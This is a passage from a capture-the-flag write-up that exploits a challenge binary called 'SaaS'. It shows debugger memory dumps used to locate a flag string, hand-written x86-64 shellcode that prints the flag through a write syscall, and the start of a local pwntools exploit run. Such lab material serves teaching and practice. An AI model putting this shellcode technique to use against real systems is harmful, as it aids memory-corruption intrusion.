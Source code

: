 Great, so lets calulate an offset:
```python
hex(0x007fd853882190 - 0x007fd85387f000)
0x3190
```

### Find the flag string offset:

We're going to be looking in the `rw` area for our flag.
```python
gef➤  telescope 0x00562cd9602000
0x00562cd9602000│+0x0000: <data_start+0> add BYTE PTR [rax], al
0x00562cd9602008│+0x0008: 0x00562cd9602008  →  [loop detected]
0x00562cd9602010│+0x0010:  add BYTE PTR [rax], al
0x00562cd9602018│+0x0018:  add BYTE PTR [rax], al
0x00562cd9602020│+0x0020: 0x007fd8538166a0  →  0x00000000fbad2887
0x00562cd9602028│+0x0028:  add BYTE PTR [rax], al
0x00562cd9602030│+0x0030: 0x007fd853815980  →  0x00000000fbad208b
0x00562cd9602038│+0x0038:  add BYTE PTR [rax], al
0x00562cd9602040│+0x0040: 0x007fd8538165c0  →  0x00000000fbad2087
0x00562cd9602048│+0x0048: <completed+0> add BYTE PTR [rax], al
gef➤
0x00562cd9602050│+0x0050:  add BYTE PTR [rax], al
0x00562cd9602058│+0x0058:  add BYTE PTR [rax], al
0x00562cd9602060│+0x0060: "fakeflag\n"
0x00562cd9602068│+0x0068: 0x0000000000000a ("\n"?)
0x00562cd9602070│+0x0070: <flag+16> add BYTE PTR [rax], al
0x00562cd9602078│+0x0078: <flag+24> add BYTE PTR [rax], al
0x00562cd9602080│+0x0080: <flag+32> add BYTE PTR [rax], al
0x00562cd9602088│+0x0088: <flag+40> add BYTE PTR [rax], al
0x00562cd9602090│+0x0090: <flag+48> add BYTE PTR [rax], al
0x00562cd9602098│+0x0098: <flag+56> add BYTE PTR [rax], al
```

Awesome! so we know we have an offset of `0x202060` from the base address to get our Flag string.

### Writing our shellcode:
```python
  lea rax, [rip-0x52] # Use RIP to load the base map area address into rax
  add rax, 0x3190     # Add our offset to get the pointer to our ELF execution base
  mov rsi, [rax]      # Load that to RSI
  add rsi, 0x202060   # Add the offset to our Flag string
  mov rax, SYS_write  # Load syscall write to RAX
  mov rdi, 1          # Load STDOUT (1) to RDI
  mov rdx, 100        # Load 100 bytes as the size to RDX
  syscall             # Trigger a syscall!
  nop
  nop
```

Obviously there was some local trial and error to load the right offsets etc... but all in all it was pretty fast and fun. 

Then to execute it locally:
```python
$ ./exploit.py LOCAL
[*] '/home/caesurus/CTF_Writeups/2023-RandomChallenges/SaaS/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/caesurus/CTF_Writeups/2023-RandomChallenges/SaaS/chall': pid 2892722
./exploit.py:73: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
```